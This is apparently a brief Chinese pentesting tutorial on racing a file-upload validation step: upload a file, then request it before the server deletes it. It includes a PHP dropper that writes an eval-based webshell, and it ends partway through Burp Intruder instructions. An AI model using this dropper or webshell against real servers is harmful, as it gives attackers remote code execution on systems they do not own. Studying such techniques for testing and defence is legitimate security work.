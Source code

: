 # 条件竞争

## 服务器先复制文件后验证

流程：服务器先把文件从temp复制到存储区->验证文件合法性->验证不通过则删除

可以在文件被删除之前，让恶意文件生成子文件逃脱控制

parent.php

```php
<?php 
    file_put_contents('shell.php','<?php eval($_REQUEST[8]);?>');
    echo "success!";
?>
```

上传一个正常的文件，得到文件的存储路径`http://xxx.com/uploads/1.jpg`

### 使用burp跑包功能

- 将上传包和访问文件包`http://xxx.com/uploads/parent.php`发送到Intruder



